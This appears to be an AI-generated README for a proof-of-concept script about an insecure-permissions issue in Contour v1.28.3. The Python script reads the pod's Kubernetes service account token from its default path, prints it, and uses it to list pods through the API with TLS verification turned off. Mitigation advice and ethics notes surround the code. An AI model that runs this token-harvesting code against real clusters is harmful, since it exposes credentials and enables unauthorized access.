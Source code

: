 Here’s a `README.md` for a Proof of Concept (PoC) demonstrating the insecure permissions vulnerability in Contour v1.28.3:

---

# Proof of Concept (PoC) for Insecure Permissions Vulnerability in Contour v1.28.3

This repository contains a Proof of Concept (PoC) script demonstrating an insecure permissions vulnerability in Contour v1.28.3. This vulnerability allows attackers to access sensitive data and escalate privileges by obtaining the service account's token.

## Vulnerability Description

**CVE-ID**: (Pending)

**Overview**:
Contour v1.28.3 contains insecure permissions that allow attackers to access the service account's token. By exploiting this vulnerability, an attacker can obtain the service account's token, which can be used to access sensitive data and potentially escalate privileges within the Kubernetes cluster.

**Affected Versions**:
- Contour v1.28.3

**Mitigations**:
- Review and adjust permissions of service accounts used by Contour.
- Ensure that service accounts have the minimum required permissions.
- Regularly audit and rotate service account tokens.

## PoC Details

This PoC script demonstrates how to access the service account's token in Contour v1.28.3. Ensure you have explicit permission to perform this test.

### PoC Script

```python
import os
import requests

# Configuration
kubernetes_api_url = "https://kubernetes.default.svc"  # Kubernetes API URL
token_path = "/var/run/secrets/kubernetes.io/serviceaccount/token"  # Path to the service account token
namespace_path = "/var/run/secrets/kubernetes.io/serviceaccount/namespace"  # Path to the namespace

def get_service_account_token():
    try:
        # Read the service account token
        with open(token_path, 'r') as token_file:
            token = token_file.read().strip()
        print(f"[+] Service Account Token: {token}")
        return token
    except Exception as e:
        print(f"[-] Error reading token: {e}")
        return None

def get_namespace():
    try:
        # Read the namespace
        with open(namespace_path, 'r') as namespace_file:
            namespace = namespace_file.read().strip()
        print(f"[+] Namespace: {namespace}")
        return namespace
    except Exception as e:
        print(f"[-] Error reading namespace: {e}")
        return None

def access_kubernetes_api(token, namespace):
    try:
        # Set the headers with the token
        headers = {
            "Authorization": f"Bearer {token}",
            "Content-Type": "application/json"
        }
        
        # Make a request to the Kubernetes API to get pods in the namespace
        response = requests.get(f"{kubernetes_api_url}/api/v1/namespaces/{namespace}/pods", headers=headers, verify=False)
        
        # Print the response details
        print("Status Code:", response.status_code)
        print("Response Body:", response.json())
        
        if response.status_code == 200:
            print("[+] Successfully accessed Kubernetes API.")
        else:
            print("[-] Failed to access Kubernetes API.")
    except Exception as e:
        print(f"[-] An error occurred: {e}")

if __name__ == "__main__":
    # Get the service account token and namespace
    token = get_service_account_token()
    namespace = get_namespace()
    
    if token and namespace:
        # Access the Kubernetes API using the token
        access_kubernetes_api(token, namespace)
```

### Explanation

1. **Configuration**: The script configures the Kubernetes API URL and the paths to the service account token and namespace files.
2. **Get Service Account Token**: Reads the service account token from the file system.
3. **Get Namespace**: Reads the namespace from the file system.
4. **Access Kubernetes API**: Uses the token to make a request to the Kubernetes API to list the pods in the namespace.

## Important Considerations

- **Permissions**: Ensure you have explicit permission to test this vulnerability on the target system. Unauthorized testing is illegal and unethical.
- **Testing Environment**: Conduct tests in a controlled environment to avoid impacting production systems.
- **Ethical Use**: Use this PoC responsibly and only in authorized contexts.

## Mitigation

To address this vulnerability:

1. **Review Service Account Permissions**: Ensure that service accounts have the minimum required permissions.
2. **Audit and Rotate Tokens**: Regularly audit service accounts and rotate tokens to minimize the risk of token compromise.
3. **Update Contour**: Keep Contour and other Kubernetes components up to date with the latest security patches.

For more information on securing your Contour deployment, refer to the official [Contour documentation](https://projectcontour.io/docs/).

---

This `README.md` provides an overview of the vulnerability, a PoC script to demonstrate the issue, and instructions on how to mitigate the risk. Ensure you handle this PoC responsibly and only on systems where you have explicit authorization.
